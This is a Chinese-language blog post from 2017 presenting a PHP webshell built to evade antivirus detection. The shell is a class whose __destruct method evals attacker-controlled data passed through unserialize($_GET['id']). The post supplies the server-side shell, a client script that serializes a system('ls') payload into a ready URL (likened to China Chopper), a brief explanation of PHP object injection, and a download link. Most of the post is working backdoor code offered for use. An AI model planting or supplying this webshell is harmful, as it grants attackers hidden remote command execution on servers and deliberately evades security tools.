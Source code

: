 ```yaml
---
layout:     post
title:      unserialize免杀webshell
date:       2017-04-18
summary:    unserialize免杀webshell
categories: web
tags:
 - unserialize
 - php
 - webshell
---
```


### php的unserialize函数

```
php的unserialize反序列化函数可以将反序列化后的结果还原成数字,字符,数组,对象等类型,如果还原后的结果是对象且这个
对象对应的类有__wakeup,__destruct等函数,那么在unserialize函数执行后将执行对应的函数(__wakeup,__destruct等)

refer:
http://www.91ri.org/3960.html
https://www.owasp.org/index.php/PHP_Object_Injection
```

### 利用unserialize构造webshell

#### 服务端[webshell]

```
<?php

class foo{
    public $data="text";
        function __destruct()
        {
            eval($this->data);
        }

}

$file_name=$_GET['id'];
unserialize($file_name);
```

#### 客户端[相当于菜刀]

```
<?php

class foo{
    #public $data="phpinfo();";
    public $data="system('ls');";

}
$a=new foo;
$b=serialize($a);
echo "please visit uri:\n"."[your shell page url]"."?id=".$b;
```

#### 理解

```
服务端被访问后在内存中有一个foo类模板,当客户端伪造一个同名的叫做foo的类的对象的序列化后的结果给服务端反序列化时
,服务端在反序列化这个这个传入的反序列化值后将认为这是当前内存中对应的foo类模板的一个实例对象,于是去执行当前内存
的foo类模板的__wakeup,__destruct等函数,但是恰好这些函数会造成php代码执行[eval($this->data)],且$this->data可控.
```

本文代码对应下载链接如下
<a href="https://github.com/3xp10it/xwebshell/tree/master/unserializePHP">download</a>

